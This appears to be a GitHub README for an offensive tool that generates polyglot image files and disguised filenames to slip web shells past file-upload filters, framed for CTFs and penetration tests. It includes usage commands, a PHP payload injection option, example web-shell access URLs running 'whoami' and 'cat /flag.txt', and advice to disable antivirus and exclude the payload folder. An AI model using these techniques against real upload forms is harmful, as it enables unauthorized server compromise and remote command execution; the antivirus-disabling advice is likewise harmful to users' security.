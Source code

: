 ```yaml
---

# 🔥 File Bypass Generator - Black Hat Edition 🔥

A powerful and modular Python tool designed to generate malicious image files for bypassing weak file upload restrictions in CTF challenges and penetration tests. This tool automates the creation of polyglot files and obfuscated filenames to exploit common vulnerabilities.

**Author:** CodeAx1
**For:** Educational Purposes & CTF Competitions

---
```


## ⚠️ DISCLAIMER & WARNING

**THIS TOOL IS STRICTLY FOR LEGAL AND EDUCATIONAL PURPOSES ONLY.**

*   Use only on systems you own **OR** have explicit, written permission to test.
*   Use only in controlled environments like **CTF competitions** or **your own lab**.
*   Unauthorized access to computer systems is a serious crime.

### 🦠 **ANTIVIRUS DETECTION NOTICE** 🦠

**This tool generates files containing malicious code signatures.**
> **I am not responsible if your antivirus software has a panic attack and deletes your files or your entire computer. This is expected behavior.**

The generated files are **designed to bypass security filters**, which means they often contain patterns that trigger **Antivirus (AV) and EDR solutions**. If you want to use this tool effectively, you should:

1.  **Disable real-time protection temporarily** while generating and testing payloads.
2.  Add the `bypass_payloads/` folder to your AV's exclusion list.
3.  Use a dedicated, isolated virtual machine (VM) for penetration testing (highly recommended).

---

## 🛠️ Installation & Setup

1.  **Clone the Repository:**
    ```bash
    [git clone https://github.com/your_username/file-bypass-generator.git](https://github.com/CodeAx1avek/Advance-file-upload-bypasser)
    cd Advance-file-upload-bypasser
    ```

    *Required libraries: `PyYAML`, `Pillow`*

---

## 🚀 How to Use

### Basic Usage
Generate a single file by selecting a technique from the list:
```bash
python file_bypasser.py --ratio 1:1
```

### Advanced Usage
Generate ALL bypass techniques at once (Batch Mode):
```bash
python file_bypasser.py --ratio 16:9 --scale 50 --batch
```

### Command Line Arguments
| Argument | Description | Example |
| :--- | :--- | :--- |
| `--ratio` | **Required.** Image aspect ratio (Width:Height). | `--ratio 1:1` |
| `--scale` | Multiplier for the ratio to get final size in pixels. | `--scale 100` (creates 100x100px for 1:1) |
| `--yaml` | Path to your custom YAML patterns file. | `--yaml my_patterns.yaml` |
| `--name` | Base name for the generated file. | `--name my_shell` |
| `--payload` | Custom PHP payload to inject. | `--payload "<?php phpinfo(); ?>"` |
| `--batch` | Generate all patterns without prompting. | `--batch` |

---

## 📁 Understanding the YAML Pattern File

The tool uses `extension.yaml` to define the bypass techniques. You can easily add your own!

```yaml
- name: descriptive_name
  pattern: "filename.extension"
  access: "Instructions on how to access the shell after upload."
```

### Example Pattern:
```yaml
- name: double_extension
  pattern: "{basename}.php.jpg"
  access: "http://target.com/uploads/{filename}?cmd=whoami"
```
*   `{basename}` is replaced with the value from `--name`.
*   `{filename}` is replaced with the final generated filename.

---

## 🎯 How to Win CTFs with This Tool

1.  **Find a file upload form** on the target web application.
2.  **Run the tool** to create your arsenal of malicious files:
    ```bash
    python file_bypasser.py --ratio 1:1 --batch
    ```
    ```bash
    python3 advance_bypass.py --ratio 1:1 --type aspx --payload "CUSTOM_ASPAYLOAD"
    ```
3.  **Upload the files.** Use Burp Suite Intruder to automate uploading everything in the `bypass_payloads/` folder.
4.  **Find your shell!** The tool will print access URLs for you. One of them will work.
5.  **Execute commands & capture the flag:**
    ```bash
    # Example:
    http://ctf-target.com/uploads/shell.php.jpg?cmd=cat /flag.txt
    ```

---

## 🧠 Contribute & Customize

Feel free to contribute new bypass techniques by adding them to the `extension.yaml` file! The more patterns, the better the tool.

---

## 📜 License

This project is licensed under the MIT License - see the LICENSE file for details. Use this tool responsibly and ethically.

**Remember: With great power comes great responsibility. Now go win those CTFs!** 🏴‍☠️

---
